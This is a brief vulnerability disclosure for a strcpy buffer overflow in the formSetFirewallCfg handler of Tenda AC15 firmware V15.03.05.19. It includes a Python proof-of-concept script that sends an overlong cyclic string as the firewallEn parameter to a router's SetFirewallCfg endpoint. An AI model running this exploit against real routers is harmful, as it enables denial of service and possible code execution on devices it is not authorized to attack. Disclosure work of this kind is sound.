



## Tenda AC15V15.03.05.19 firmware has a buffer overflow vulnerability in the formSetFirewallCfg

Tenda router AC15V15.03.05.19 firmware has a serious buffer overflow vulnerability in the function `formSetFirewallCfg`. An attacker can overwrite `dest` through `strcpy(dest, src);` to cause a denial of service attack or even remote code execution.



### POC

```py
import requests
from gt import *
con("arm")

def generate_overflow_data():

    payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaarrrr'


    # Combine padding and target value
    exploit_data = payload 
    
    return exploit_data

def execute_overflow(url, data):

    attack_params = {'firewallEn':data}

    
    server_response = requests.get(url, params=attack_params)

    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/SetFirewallCfg"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```





